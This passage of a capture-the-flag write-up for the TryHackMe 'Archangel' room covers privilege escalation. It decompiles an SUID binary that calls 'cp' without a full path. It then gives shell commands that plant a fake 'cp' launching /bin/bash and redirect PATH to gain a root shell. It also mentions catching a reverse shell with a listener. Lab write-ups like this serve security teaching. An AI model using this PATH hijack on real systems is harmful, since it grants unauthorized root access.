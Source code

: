 ## Privilege Escalation:

Start a listener again on your machine and wait for a minute. Once you get the shell, upgrade it again from the unstable one.
<br>
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/archangelshell.png" | relative_url}})
{: refdef}
<br>

You will get third flag in users directory. Also there is a folder name **secret** which contains the another user flag and a Binary which has SUID bit set. To analyze to binary, you have to download it on your machine. Start the webserver on target machine using python3.
```shell
python3 -m http.server 8888
```
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/userflag1.png" | relative_url}})
{: refdef}
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/userflag2.png" | relative_url}})
{: refdef}
<br>

Download the file in your machine using **wget** command and anaylze it using Ghidra. If you don't know what ghidra is, then you must visit the **CC: Ghidra** room on TryHackMe.

After analyzing we get the following code
```cpp
undefined8 main(void)

{
  setuid(0);
  setgid(0);
  system("cp /home/user/archangel/myfiles/* /opt/backupfiles");
  return 0;
}
```

The binary executes system command to copy files from one directory to another. But it doesn't use full path for **cp** command. So, we can create our own binary named **cp** and point the $PATH to our directory which will get us the root shell.

```shell
echo '#!/bin/bash' > cp
echo "/bin/bash" >> cp
chmod +x cp
```
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/cp.png" | relative_url}})
{: refdef}
<br>
Now modify the PATH variable and make it point towards "/home/archangel/secret" directory where we have created the **cp** binary.
<br>
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/path.png" | relative_url}})
{: refdef}
